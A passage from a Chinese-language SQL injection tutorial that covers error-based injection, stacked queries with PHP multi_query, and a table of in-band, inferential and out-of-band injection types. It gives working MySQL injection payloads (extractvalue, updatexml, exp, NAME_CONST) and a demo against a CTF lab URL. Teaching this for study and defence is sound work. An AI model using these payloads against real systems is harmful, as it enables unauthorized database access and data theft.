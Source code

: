 #### [](#623-%E5%85%B6%E5%AE%83%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.3 其它显错注入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>and extractvalue(1,concat(0x7e,(select database())))<br>//1105 - XPATH syntax error: '~sectest', Time: 0.000000s<br><br>and exp(~(select * from (select user())a)) // mysql5<br><br>union select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;<br>//1060 - Duplicate column name '5.7.23', Time: 0.000000s<br>``` |

#### [](#63-demo)6.3 Demo

[http://ctf5.shiyanbar.com/web/baocuo/index.php](http://ctf5.shiyanbar.com/web/baocuo/index.php)

**payload**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>updatexml(1,concat(0x7e,(version())),0)<br><br>http://ctf5.shiyanbar.com/web/baocuo/index.php<br>$sql="    select * from users where username='' and updatexml /*' and password='*/(1,concat(0x7e,(version())),0) or '1' "<br>``` |

## [](#7-%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)7 堆叠注入

一堆 SQL 语句 (多条) 一起执行

在 MySQL 中，主要是命令行中，每条语句结尾加 `;` 表示语句结束。这样可以考虑多条 SQL 语句一起使用

问题

堆叠注入和 UNION 注入的差别是？

UNION 执行的语句类型是有限的，只可以用来执行查询语句

而堆叠注入可以执行任意语句

注意：场景少；但是**威力大**

并不是每一个环境下都可以执行，很可能受 API 或者数据库引擎不支持的限制，同时权限不足也是面临的主要问题

在真实环境中：

1.  通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的
2.  在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息

在 PHP - MySQL 中相关的 API

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```php<br>$query  = "SELECT CURRENT_USER();";<br>$query .= "SELECT Name FROM City ORDER BY ID LIMIT 20, 5";<br><br>/* 批量执行查询 */<br>if ($mysqli->multi_query($query)) {<br>    do {<br>        /* store first result set */<br>        if ($result = $mysqli->store_result()) {<br>            while ($row = $result->fetch_row()) {<br>                printf("%s\n", $row[0]);<br>            }<br>            $result->free();<br>        }<br>        /* print divider */<br>        if ($mysqli->more_results()) {<br>            printf("-----------------\n");<br>        }<br>    } while ($mysqli->next_result());<br>}<br>``` |

## [](#8-oob-%E6%B3%A8%E5%85%A5)8 OOB 注入

| 攻击类别 | SQL 注入类型 | 说明  |
| --- | --- | --- |
| INBAND | 报错注入、UNION 注入 | 在应用内直接获取数据，通用过应用返回或者报错直接提取数据 |
| INFERENCE | 布尔注入、时间盲注 | 通过应用的非直接数据反馈进行推断 |
| OUT OF BAND | OOB SQL 注入 | 通过其它信道获取数据 |
